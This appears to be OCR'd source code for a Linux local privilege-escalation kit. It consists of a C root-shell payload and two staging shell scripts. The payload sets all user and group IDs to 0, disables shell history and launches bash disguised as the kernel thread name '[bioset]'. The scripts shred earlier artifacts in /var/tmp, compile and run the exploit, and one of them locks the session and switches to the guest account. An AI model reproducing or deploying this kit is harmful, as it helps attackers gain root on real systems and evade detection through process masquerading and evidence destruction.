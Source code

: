 shell.c



```
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;grp.h&gt;
int main(void)
{
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    setgroups(0, NULL);
    putenv("HISTFILE=/dev/null");
    execl("/bin/bash", "[bioset]", "-pi", NULL);
    return 0;
}
```

stage1.sh



```
#!/bin/bash
if [ "${PWD}" == "/var/tmp/kodek" ]; then
/usr/bin/killall -9 /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/killall -9 boc &gt;/dev/null 2&gt;&amp;1
/bin/sleep 3s
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/gcc boc.c -Wall -s -o /var/tmp/boc
/usr/bin/gcc shell.c -Wall -s -o /var/tmp/shell
/bin/cp /var/tmp/kodek/run.sh /var/tmp/run.sh
/var/tmp/boc
else
echo "[!] run me from /var/tmp/kodek"
exit
fi
```

stage1local.sh



```
#!/bin/bash
if [ "${PWD}" == "/var/tmp/kodek" ]; then
/usr/bin/killall -9 /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/killall -9 boc &gt;/dev/null 2&gt;&amp;1
/bin/sleep 3s
/usr/bin/shred -fu /var/tmp/run.sh /var/tmp/shell /var/tmp/boc &gt;/dev/null 2&gt;&amp;1
/usr/bin/gcc boclocal.c -Wall -s -o /var/tmp/boc
/usr/bin/gcc shell.c -Wall -s -o /var/tmp/shell
/bin/cp /var/tmp/kodek/run.sh /var/tmp/run.sh
/var/tmp/boc &amp;
/bin/sleep 5s
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool lock
XDG_SEAT_PATH="/org/freedesktop/DisplayManager/Seat0" /usr/bin/dm-tool switch-to-guest
else
echo "[!] run me from /var/tmp/kodek"
exit
fi
```
